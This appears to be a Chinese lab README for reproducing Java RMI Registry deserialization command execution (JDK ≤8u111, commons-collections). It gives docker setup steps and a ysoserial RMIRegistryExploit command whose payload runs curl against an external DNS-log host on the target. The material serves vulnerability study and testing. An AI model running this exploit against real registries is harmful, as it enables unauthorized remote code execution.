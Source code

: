 # Java ≤JDK 8u111 RMI Registry 反序列化命令执行

Java Remote Method Invocation（RMI）是Java中用于远程过程调用的机制。尽管远程绑定通常是被禁用的，但RMI Registry中包含一个可被利用的远程绑定功能。攻击者可以在绑定过程中，通过伪造序列化数据（实现Remote接口或动态代理实现了Remote接口的对象），使Registry在对数据进行反序列化时触发相应的利用链。本环境使用commons-collections:3.2.1进行演示。

参考链接：

- <https://www.rapid7.com/db/modules/exploit/multi/misc/java_rmi_server>
- <https://github.com/frohoff/ysoserial>

## 环境搭建

执行如下命令编译及启动RMI Registry和服务器：

```
docker compose build
docker compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

将`your-ip`替换为你的服务器IP地址，客户端将使用此IP连接服务器。

环境启动后，RMI Registry将监听在1099端口。

## 漏洞复现

使用ysoserial的exploit包中的RMIRegistryExploit进行攻击：

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 CommonsCollections6 "curl your-dnslog-server"
```

![](1.png)

Registry会返回报错，这是正常现象，命令仍会成功执行。
